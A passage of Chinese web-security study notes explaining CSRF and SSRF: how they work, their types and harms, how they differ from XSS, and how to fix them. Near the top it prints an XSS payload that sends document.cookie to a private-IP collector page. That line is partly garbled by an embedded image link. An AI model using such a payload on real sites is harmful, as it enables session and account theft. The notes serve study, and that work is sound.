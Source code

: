 <script>document.location=![](https://cdn.nlark.com/yuque/0/2023/png/23012500/1684121833693-4b7687f8-f31d-4375-93ef-f9947c01d3d7.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_9%2Ctext_c2h1YWlnZQ%3D%3D%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10%2Fresize%2Cw_20%2Climit_0#averageHue=%23305281&from=url&id=qKyz8&originHeight=15&originWidth=20&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)[http://192.168.0.143/cookie.php?cookie="+](http://192.168.0.143/cookie.php?cookie=%22+)document.cookie;</script>

## csrf漏洞（跨站请求伪造）

### csrf原理

** 原理：利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，受害人不知情的情况下会以受害者的身份向服务器发送请求，从而完成非法操作。**

### csrf漏洞修复

**a：验证http头的referer：仅响应referer头带本域的请求。
 b：请求地址中添加token验证。
 c：使用localstorage和sessionstorage保存会话。**

### 类型

**get请求型csrf：只需要构造url，然后诱导受害者访问；
 Post请求型csrf：构造自动提交的表单，诱导受害者访问或者点击。**

### 危害：

**利用受害者身份发送邮件、发消息、盗取受害者的账号等**

### 与xss的区别：

![](https://cdn.nlark.com/yuque/0/2023/png/23012500/1684121834000-086f79d0-0bf6-45f8-a918-fd290bf7be17.png?x-oss-process=image%2Fwatermark%2Ctype_d3F5LW1pY3JvaGVp%2Csize_18%2Ctext_c2h1YWlnZQ%3D%3D%2Ccolor_FFFFFF%2Cshadow_50%2Ct_80%2Cg_se%2Cx_10%2Cy_10%2Fresize%2Cw_644%2Climit_0#averageHue=%231c1e1f&from=url&id=imYEr&originHeight=342&originWidth=644&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

### 与ssrf的区别

** ccrf 是指攻击者盗用了你的身份，以你 的名义发送恶意请求，例如发送邮箱， 盗用账户，购买商品等。**ssrf 是指大型 网站 web 应用上提供了从其他服务器获取数据的功能，攻击者利用有缺陷的 web 应用作为代理远程攻击。**

## ssrf漏洞（服务端请求伪造）

### 原理:

**服务端提供了从其他服务器获取数据的功能，但是没有对目标地址进行过滤和限制。比如从指定的URL地址获取网页内容，加载指定地址的图片、数据、下载等等。
一般情况下，我们服务端请求的目标都是与该请求服务器处于同一**[**内网**](https://www.yuque.com/hazel-tlnjt/iugito/ziqd7dtp6oye9mii?singleDoc)**的资源服务，但是如果没有对这个请求的目标地址、文件等做充足的过滤和限制，攻击者可通过篡改这个请求的目标地址来进行伪造请求。**

### ssrf漏洞修复：

** url白名单（限制不能访问内网的ip）
过滤返回信息
统一错误信息
限制请求端口只能为web端口，只允许访问http和https的请求；**
